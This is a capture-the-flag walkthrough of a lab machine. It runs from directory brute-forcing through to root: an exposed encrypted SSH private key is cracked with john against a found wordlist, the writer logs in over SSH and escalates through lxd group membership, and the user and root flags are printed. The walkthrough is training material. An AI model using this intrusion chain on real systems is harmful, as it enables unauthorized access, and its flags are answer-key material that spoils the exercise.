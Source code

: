 My ip       : 10.2.3.159
Target ip : 10.10.78.34

Open ports :
```
ssh  : 22
http : 80
```

---

Gobuster :
```
gobuster dir -w `fzf-wordlists` -u http://10.10.78.34/ -t 75 -x php,html,txt

/about.php            (Status: 200) [Size: 2213]
/.php                 (Status: 403) [Size: 276]
/index.html           (Status: 200) [Size: 2762]
/about.html           (Status: 200) [Size: 1435]
/.html                (Status: 403) [Size: 276]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.78.34/uploads/]
/robots.txt           (Status: 200) [Size: 33]
/secret               (Status: 301) [Size: 311] [--> http://10.10.78.34/secret/]
/myths.html           (Status: 200) [Size: 3067]

```

---
See what we can find in this directories :

Some password list file :
```
http://10.10.78.34/uploads/dict.lst

(Saved in ./)
```

Ssh Key (Encrypted) :

```
http://10.10.78.34/secret/secretKey

-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,82823EE792E75948EE2DE731AF1A0547

T7+F+3ilm5FcFZx24mnrugMY455vI461ziMb4NYk9YJV5uwcrx4QflP2Q2Vk8phx
H4P+PLb79nCc0SrBOPBlB0V3pjLJbf2hKbZazFLtq4FjZq66aLLIr2dRw74MzHSM
FznFI7jsxYFwPUqZtkz5sTcX1afch+IU5/Id4zTTsCO8qqs6qv5QkMXVGs77F2kS
Lafx0mJdcuu/5aR3NjNVtluKZyiXInskXiC01+Ynhkqjl4Iy7fEzn2qZnKKPVPv8
9zlECjERSysbUKYccnFknB1DwuJExD/erGRiLBYOGuMatc+EoagKkGpSZm4FtcIO
IrwxeyChI32vJs9W93PUqHMgCJGXEpY7/INMUQahDf3wnlVhBC10UWH9piIOupNN
SkjSbrIxOgWJhIcpE9BLVUE4ndAMi3t05MY1U0ko7/vvhzndeZcWhVJ3SdcIAx4g
/5D/YqcLtt/tKbLyuyggk23NzuspnbUwZWoo5fvg+jEgRud90s4dDWMEURGdB2Wt
w7uYJFhjijw8tw8WwaPHHQeYtHgrtwhmC/gLj1gxAq532QAgmXGoazXd3IeFRtGB
6+HLDl8VRDz1/4iZhafDC2gihKeWOjmLh83QqKwa4s1XIB6BKPZS/OgyM4RMnN3u
Zmv1rDPL+0yzt6A5BHENXfkNfFWRWQxvKtiGlSLmywPP5OHnv0mzb16QG0Es1FPl
xhVyHt/WKlaVZfTdrJneTn8Uu3vZ82MFf+evbdMPZMx9Xc3Ix7/hFeIxCdoMN4i6
8BoZFQBcoJaOufnLkTC0hHxN7T/t/QvcaIsWSFWdgwwnYFaJncHeEj7d1hnmsAii
b79Dfy384/lnjZMtX1NXIEghzQj5ga8TFnHe8umDNx5Cq5GpYN1BUtfWFYqtkGcn
vzLSJM07RAgqA+SPAY8lCnXe8gN+Nv/9+/+/uiefeFtOmrpDU2kRfr9JhZYx9TkL
wTqOP0XWjqufWNEIXXIpwXFctpZaEQcC40LpbBGTDiVWTQyx8AuI6YOfIt+k64fG
rtfjWPVv3yGOJmiqQOa8/pDGgtNPgnJmFFrBy2d37KzSoNpTlXmeT/drkeTaP6YW
RTz8Ieg+fmVtsgQelZQ44mhy0vE48o92Kxj3uAB6jZp8jxgACpcNBt3isg7H/dq6
oYiTtCJrL3IctTrEuBW8gE37UbSRqTuj9Foy+ynGmNPx5HQeC5aO/GoeSH0FelTk
cQKiDDxHq7mLMJZJO0oqdJfs6Jt/JO4gzdBh3Jt0gBoKnXMVY7P5u8da/4sV+kJE
99x7Dh8YXnj1As2gY+MMQHVuvCpnwRR7XLmK8Fj3TZU+WHK5P6W5fLK7u3MVt1eq
Ezf26lghbnEUn17KKu+VQ6EdIPL150HSks5V+2fC8JTQ1fl3rI9vowPPuC8aNj+Q
Qu5m65A5Urmr8Y01/Wjqn2wC7upxzt6hNBIMbcNrndZkg80feKZ8RD7wE7Exll2h
v3SBMMCT5ZrBFq54ia0ohThQ8hklPqYhdSebkQtU5HPYh+EL/vU1L9PfGv0zipst
gbLFOSPp+GmklnRpihaXaGYXsoKfXvAxGCVIhbaWLAp5AybIiXHyBWsbhbSRMK+P
-----END RSA PRIVATE KEY-----
```

Let's decrypt the passphrase :
```
python3 ssh2john.py id_rsa_encrypted > hash

john --wordlist=dict.lst hash

Password : letmein
```

---

We can find a username into the first webpage source code : John

Let's try to connect to the ssh service with those credentials :
```
ssh -i id_rsa_encrypted john@10.10.78.34

Passphrase : letmein       (Cracked before)

cat user.txt
a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e
```

User flag : a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e

Now let's try to get root.

---

We can see that we are on Ubuntu 18.04 and john is the group 'lxd' :
```sh
# Step 1: Download build-alpine => wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine [Attacker Machine]
# Step 2: Build alpine => bash build-alpine (as root user) [Attacker Machine]
# Step 3: Run this script and you will get root [Victim Machine]
# Step 4: Once inside the container, navigate to /mnt/root to see all resources from the host machine
```

Now we are root on the machine ! Let's find the root flag :
```
# find / -type f -name root.txt 2>/dev/null
/mnt/root/root/root.txt

# cat /mnt/root/root/root.txt
2e337b8c9f3aff0c2b3e8d4e6a7c88fc
```